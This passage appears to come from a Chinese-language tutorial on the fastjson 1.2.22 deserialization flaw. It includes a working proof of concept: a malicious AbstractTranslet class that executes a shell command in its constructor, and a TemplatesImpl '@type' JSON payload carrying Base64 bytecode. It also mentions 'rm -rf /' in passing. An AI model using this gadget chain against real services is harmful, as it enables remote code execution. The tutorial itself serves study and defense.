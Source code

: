 重点来了：根据打印结果，我们发现，fastjson在解析时调用了User的构造方法以及所有的get set方法, 那这个跟高危漏洞有啥关系呢？

如果我们依赖的包或者jdk里面有一个这样的类：在执行构造方法时，会执行一些危险的操作，比如调用我们的操作系统。如果调用操作系统时是用的我们传入的指令，那就更危险了。

所以攻击手段很明确了：找一个这样的类，并且编写好需要操作的指令，构建一个json字符串，传给fastjson解析，fastjson解析时，调用这个类的构造方法或者getset方法，调用我们编写的操作指令，攻击操作系统。

### attack

我在网上就找到了历史漏洞中的一个案例， 在第三方包中有个类为`TemplatesImpl`，就非常符合我们的需求。而且这个类更牛逼， 他能根据我们传入的class字节码，创建一个对象出来，当然，它规定了这个对象必须是`AbstractTranslet`的子类

fastjson版本：1.2.22

编写代码

```java
public class MyTranslet extends AbstractTranslet {
    public MyTranslet() throws IOException {
        Runtime.getRuntime().exec("/usr/bin/touch /tmp/aaabbb.txt");
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

> 在构造方法中执行一个touch命令，因为是我自己的电脑，可不敢玩`rm -rf /`

尝试attack

```java
@Test
public void testAttack(){
  // calss路径
  final String evilClassPath = "/Users/liaozijian/my-project/json-compare-demo/MyTranslet.class";
  // 读取class字节码
  String evilCode = readClass(evilClassPath);
  // 供fastjson解析的类
  final String tempClass = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
  // 构建一个攻击的json字符串
  String json = "{\"@type\":\"" + tempClass +
    "\",\"_bytecodes\":[\""+evilCode+"\"],'_name':'a.b','_tfactory':{ },\"_outputProperties\":{ }," +
    "\"_name\":\"a\",\"_version\":\"1.0\",\"allowedProtocols\":\"all\"}\n";
  // fastjson解析
  JSON.parseObject(json, Object.class, Feature.SupportNonPublicField);
}


public String readClass(String path){
  final byte[] bytes = FileUtil.readBytes(path);
  return Base64.encode(bytes);
}
```
